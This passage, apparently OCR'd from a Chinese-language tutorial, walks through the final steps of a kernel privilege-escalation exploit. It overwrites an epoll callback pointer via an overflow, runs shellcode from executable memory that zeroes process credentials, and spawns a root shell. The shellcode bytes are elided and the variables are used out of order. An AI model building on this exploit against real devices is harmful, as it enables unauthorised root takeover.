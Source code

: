 ## 3. 内存覆盖

```c
// exploit_example.c
// 构造要写入的数据，覆盖 epoll_event 结构中的函数指针
unsigned long fake_callback[10] = {0};
// 设置跳转到我们的 shellcode 的地址
fake_callback[2] = (unsigned long)shellcode_addr;

// 将伪造的回调函数写入溢出的缓冲区
memcpy(overflow_buffer, fake_callback, sizeof(fake_callback));
```

## 4. 准备 Shellcode

```c
// exploit_example.c
// 分配可执行内存
void *shellcode_addr = mmap(NULL, 0x1000, 
                           PROT_READ | PROT_WRITE | PROT_EXEC,
                           MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

// 权限提升 shellcode
unsigned char shellcode[] = {
    // 汇编指令，完成以下 C 代码的功能:
    // struct cred *cred = (struct cred *)current->cred;
    // cred->uid.val = cred->gid.val = 0;
    // cred->euid.val = cred->egid.val = 0;
    // cred->suid.val = cred->sgid.val = 0;
    
    0x48, 0x65, /* ... 更多字节码 ... */ 0xc3
};

// 复制 shellcode 到可执行内存
memcpy(shellcode_addr, shellcode, sizeof(shellcode));
```

## 5. 触发执行

```c
// exploit_example.c
// 触发被修改的回调函数执行
// 通常通过对 epoll 实例执行某些操作
struct epoll_event events[10];
epoll_wait(epfd, events, 10, 100);

// 检查权限是否提升
if (getuid() == 0) {
    printf("提权成功! 当前拥有 root 权限\n");
    
    // 现在可以执行任何需要 root 权限的操作
    system("/system/bin/sh");
} else {
    printf("提权失败\n");
}
```

